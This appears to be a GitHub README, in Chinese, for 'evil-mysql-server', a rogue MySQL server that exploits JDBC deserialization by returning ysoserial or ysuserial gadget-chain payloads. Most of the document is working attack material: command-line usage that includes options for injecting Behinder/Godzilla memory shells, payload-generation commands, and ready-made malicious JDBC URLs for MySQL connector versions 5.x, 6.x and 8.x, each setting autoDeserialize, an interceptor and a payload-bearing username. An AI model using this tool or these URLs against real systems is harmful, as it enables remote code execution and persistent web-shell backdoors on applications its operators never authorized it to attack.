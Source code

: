 # evil mysql server for ysu


## 增加对su18-ysu的适配

```
Usage of ./evil-mysql:
  -addr string
        listen addr (default "0.0.0.0:3306")
  -hv string
        MemoryShell binding url pattern (default "https://www.google.com/")
  -java string
        java bin path (default "java")
  -pw string
        Behinder or Godzilla password (default "p@ssw0rd")
  -url string
        ysuserial bin path (default "/testbin")
  -yso string
        ysoserial bin path (default "ysoserial-0.0.6-SNAPSHOT-all.jar")
  -ysu string
        ysuserial bin path (default "ysuserial-1.5-su18-all.jar")
```

**5.1.11-5.x** ysu

```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=ysu_CommonsCollections1_EX-xxxx
```


## 简介

**evil-mysql-server** 是一个针对 jdbc 反序列化漏洞编写的恶意数据库，依赖 ysoserial 。

使用方式

[ysoserial](https://github.com/frohoff/ysoserial)

```shell
./evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```

启动成功后，使用 jdbc 进行连接，其中用户名称格式为 `yso_payload_command` , 连接成功后 `evil-mysql-server` 会解析用户名称，并使用如以下命令生成恶意数据返回到 jdbc 客户端。
```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 calc.exe
```

[ysuserial](https://github.com/su18/ysoserial) 这是一个基于原始ysoserial的增强项目。

```shell
./evil-mysql-server -addr 3306 -java java -ysuserial ysuserial-0.9-su18-all.jar
```

启动成功后，使用 jdbc 进行连接，其中用户名称格式为 `yso_payload_command` , 连接成功后 `evil-mysql-server` 会解析用户名称，并使用如以下命令生成恶意数据返回到 jdbc 客户端。
```shell
java -jar ysuserial-0.9-su18-all.jar -g CommonsCollections1 -p calc.exe
```

## JDBC url 示例

> 使用 ysuserial 时请修改username的前三个字符为 **ysu** 

**5.1.11-5.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**6.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**8.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

## 致谢

感谢以下项目，带来的启发

- [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)